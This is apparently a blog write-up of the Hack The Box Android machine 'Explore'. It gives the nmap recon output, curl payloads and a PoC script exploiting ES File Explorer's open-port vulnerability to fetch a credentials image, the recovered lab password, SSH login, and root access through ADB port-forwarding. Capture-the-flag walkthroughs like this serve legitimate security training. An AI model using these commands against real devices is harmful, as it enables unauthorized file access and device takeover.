 +++
date = '2021-10-30'
title = 'HTB Machine Explore'
+++

[![Hack The Box - Machine - Explore](/images/htb-machine-explore/htb-machine-explore_banner.png)](/images/htb-machine-explore/htb-machine-explore_banner.png)


Welcome to the writeup of the **explore machine** of the Hack The Box platform. Explore is an **easy** difficulty machine on android.

# Before starting
Connect to **Hack The Box VPN** in background with `TMUX`
```bash
tmux new -s htb
sudo openvpn ~/.vpn/htb.ovpn
```

**Add** machine to `/etc/hosts` file, **check connection** with `ping` and **create work folders**
```bash
echo '10.10.10.247 explore.htb' >> /etc/hosts
ping -c 4 explore.htb
mkdir -p ~/htb/explorer.htb/{exploits,fuzz,http,nmap}
```

# Recon
Check **all open ports**, detect the service and its version with `nmap`
```bash
nmap -sC -sV -p- -T4 --min-rate=1000 -v -oA all explore.htb
```
```nmap
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.048s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
44347/tcp open     unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=10/30%Time=617D2253%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port44347-TCP:V=7.92%I=7%D=10/30%Time=617D2252%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2
SF:030\x20Oct\x202021\x2011:00:48\x20GMT\r\nContent-Length:\x2022\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n
SF:\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412
SF:\x20Precondition\x20Failed\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:
SF:00:48\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1
SF:\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Sat,\x2030\x20Oct\x202021\
SF:x2011:00:53\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x
SF:20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:00:53\x20GMT\r\nCon
SF:tent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\
SF:r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version
SF::\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:
SF:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionRe
SF:q,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2030\x20Oct\
SF:x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x2
SF:0text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid
SF:\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\
SF:?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalS
SF:erverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x20
SF:30\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2054\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mst
SF:shash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Date:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length
SF::\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnecti
SF:on:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\
SF:0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone
```

[![](/images/htb-machine-explore/htb-machine-explore_nmap.png)](/images/htb-machine-explore/htb-machine-explore_nmap.png)

Open firefox to inspect website
```bash
firefox http://explore.htb:59777 &
```

[![](/images/htb-machine-explore/htb-machine-explore_001.png)](/images/htb-machine-explore/htb-machine-explore_001.png)

Nothing interesting 😥, let's look for information....

On port **42135** is running **ES File Explorer**, a public vulnerability that I was already testing the PoC of [fs0c131y's Github](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), I could see that [JSONAPI](https://github.com/alecgorge/jsonapi) is a Bukkit add-on, which allows to consume an API, maybe they can be related.

By reading the README.md from the repository, you can generate a payload to test the vulnerability.

```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"getDeviceInfo"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_002.png)](/images/htb-machine-explore/htb-machine-explore_002.png)

[![](/images/others/anthony_adams_rubbing_hands.jpg)](/images/others/anthony_adams_rubbing_hands.jpg)

After searching for interesting files, I found an image with the credentials of the user `kriti` located in the `/storage/emulated/0/DCIM/creds.jpg` folder.
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_003.png)](/images/htb-machine-explore/htb-machine-explore_003.png)

To get `creds.jpg` use this command:
```txt
python exploit_ESFileExplorer.py --get-file /storage/emulated/0/DCIM/creds.jpg --host explore.htb
```

[![](/images/htb-machine-explore/htb-machine-explore_004.png)](/images/htb-machine-explore/htb-machine-explore_004.png)

[![](/images/htb-machine-explore/htb-machine-explore_005.png)](/images/htb-machine-explore/htb-machine-explore_005.png)

Credentials
```txt
kristi:Kr1sT!5h@Rp3xPl0r3!
```

# Gain Access
SSH service is running on port `2222`, connect with the credentials and show `user.txt` flag
```bash
ssh -p 2222 kristi@explore.htb
cat /sdcard/user.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_user.png)](/images/htb-machine-explore/htb-machine-explore_user.png)

# Privilege Escalation
Checking the network connections, we observe that port `5555` is listening, this port is used by default by `ADB` (Android Debug Bridge).
```bash
netstat -nlpt
```

[![](/images/htb-machine-explore/htb-machine-explore_006.png)](/images/htb-machine-explore/htb-machine-explore_006.png)

So lets try to port **forward** it through ssh and try to connect it through our box
```bash
ssh -p 2222 kristi@explore.htb -L 5555:localhost:5555
```

Use `adb` to get root access, find flag and show.
```bash
adb -s localhost:5555 root
```
```bash
adb -s localhost:5555 shell
```
```bash
find / -name "root.txt" 2>/dev/null
```
```bash
cat /data/root.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_root.png)](/images/htb-machine-explore/htb-machine-explore_root.png)

[![](/images/others/boom.gif)](/images/others/boom.gif)
